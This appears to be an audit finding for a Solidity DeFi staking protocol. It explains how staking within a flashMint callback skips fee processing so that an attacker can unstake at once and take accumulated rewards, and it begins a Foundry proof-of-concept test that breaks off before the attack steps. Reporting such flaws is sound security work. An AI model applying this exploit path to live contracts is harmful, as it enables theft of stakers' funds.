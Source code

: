 ```solidity
    function _afterTokenTransfer(address _from, address _to, uint256 _amount) internal override {
        if (_from != address(0)) {
            TokenRewards(POOL_REWARDS).setShares(_from, _amount, true);
        }
        if (_to != address(0) && _to != address(0xdead)) {
            TokenRewards(POOL_REWARDS).setShares(_to, _amount, false);
        }
    }
```

When `POOL_REWARDS.setShares` is called, it attempts to trigger `_processFeesIfApplicable`. This processes the accumulated fees in the pod, ensuring that new stakers cannot gain immediate profits from previously accumulated fees.

```solidity
    function setShares(address _wallet, uint256 _amount, bool _sharesRemoving) external override {
        require(_msgSender() == trackingToken, "UNAUTHORIZED");
        _setShares(_wallet, _amount, _sharesRemoving);
    }

    function _setShares(address _wallet, uint256 _amount, bool _sharesRemoving) internal {
>>>     _processFeesIfApplicable();
        if (_sharesRemoving) {
            _removeShares(_wallet, _amount);
            emit RemoveShares(_wallet, _amount);
        } else {
            _addShares(_wallet, _amount);
            emit AddShares(_wallet, _amount);
        }
    }
```

However, since `stake` is called within the `flashMint` callback, `_shortCircuitRewards` is set to 1, preventing fees from being swapped and rewards from being deposited into `POOL_REWARDS`.

After the attacker `stake` within the `flashMint` callback and exits the `flashMint` process, they can immediately call `unstake` to trigger `_processFeesIfApplicable` and steal rewards for an immediate profit.

PoC :

Add the following test to `IndexUtils.t.sol` :

```solidity
    function test_ReentrancyFlashMint() public {
        // Get a pod to test with
        address podToDup = IStakingPoolToken(0x4D57ad8FB14311e1Fc4b3fcaC62129506FF373b1).indexFund(); // spPDAI
        address newPod = _dupPodAndSeedLp(podToDup, address(0), 0, 0);
        IDecentralizedIndex indexFund = IDecentralizedIndex(newPod);

        // Setup test amounts
        uint256 podTokensToAdd = 1e18;
        uint256 pairedTokensToAdd = 1e18;
        uint256 slippage = 1000; // 100% slippage for test

        // Deal tokens to this contract
        deal(peas, address(this), podTokensToAdd + 1000);
        // attacker balance before
        uint256 peasBefore = IERC20(peas).balanceOf(address(this));
        IERC20(peas).approve(address(indexFund), podTokensToAdd + 1000);
        uint256 podBef = indexFund.balanceOf(address(this));
        indexFund.bond(peas, podTokensToAdd + 1000, 0);
        uint256 pTknToLp = indexFund.balanceOf(address(this)) - podBef - 10;
        deal(indexFund.PAIRED_LP_TOKEN(), address(this), pairedTokensToAdd);

```